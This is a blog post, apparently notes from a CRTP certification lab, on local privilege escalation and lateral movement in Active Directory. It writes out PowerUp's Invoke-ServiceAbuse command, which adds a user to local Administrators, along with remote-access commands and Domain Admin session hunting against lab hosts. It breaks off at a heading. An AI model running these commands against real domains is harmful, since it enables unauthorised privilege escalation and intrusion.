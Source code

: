 ```yaml
---
layout: post
title: Active Directory (AD) | Local Privilege Escalation (Part 1)
date: 2024-06-25 7:40:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     # TAG names should always be lowercase
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```



## 1. Local Privilege Escalation

 In Active Directory Environment, there are multiple scenarios which lead to privilege escalation. We had a look at the following:
 
 - Hunting for Local Admin access on other machines
 - Hunting for high privilege domain accounts (like a Domain Administrator)
 - Example Scenario : I have local admin access on a machine --> A Domain Admin has a session on that machine --> I steal his token and impersonate him --> Profit!

 There are various ways of locally escalting privilege on Windows:
 
 - Missing Patches
 - Automated Deployment and AutoLogon password in clear text
 - AlwaysInstallElevated (Any user can run MSI on SYSTEM)
 - Misconfigured Services
 - DLL Hijacking and more
 - NTLM Relaying a.k.a Wont’t Fix
 - NTLM Relaying example - https://github.com/antonioCoco/RemotePotato0

 We can use below tools for complete coverage:
 
 - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
 - https://github.com/enjoiz/Privesc
 - https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md - Very NOISY

## 2. Check for any privilege escalation path (PowerUp)

First step for local privilege escalation, we will try to check for any privilege escalation path. Then if we found any services that can be abused, we can add our domain user to the local admin group.

```bash
#Check for any priviliege escalation path
Invoke-AllChecks
```

![Result](/img/crtp/result1.png){: width="972" height="589" }
_Invoke-AllChecks_

Let’s use the abuse function for Invoke-ServiceAbuse and add our current domain user to the 
local Administrators group. 
```bash
#Abuse the service and add our current domain user to the local Administrator group
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

![Result](/img/crtp/result2.png){: width="972" height="589" }
_Invoke-AllChecks_

Now, our user is a local admin !

## 3. Identify any machine in the domain where our user has local administrative (Find-PSRemotingLocalAdminAccess.ps1)

Next step, we will try to identify any computers/machines in the domain where our user has local administrative access. 


```bash
#Identify a computer within the network domain where the current user has local admin privileges.
Find-PSRemotingLocalAdminAccess
```
![Result](/img/crtp/result3.png){: width="972" height="589" }
We can connect to the machine who has the local administrative access by using winrs

```bash
winrs -r:dcorp-adminsrv cmd

#Checking the username and computername in the remote winrs session
set username
set computername
```
![Result](/img/crtp/result4.png){: width="972" height="589" }

We can also use PowerShell Remoting

```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
![Result](/img/crtp/result5.png){: width="972" height="589" }

## 4. Identify a machine in the domain where a Domain Admin session is available (PowerView)

A request will be sent to Domain Controller to retrieve all ComputerName and membership of the domain admin's group which has admin session there.

```bash
Find-DomainUserLocation
```
![Result](/img/crtp/result6.png){: width="972" height="589" }

Now, we can abuse this using winrs or PowerShell Remoting!

**Abuse using winrs**
![Result](/img/crtp/result7.png){: width="972" height="589" }
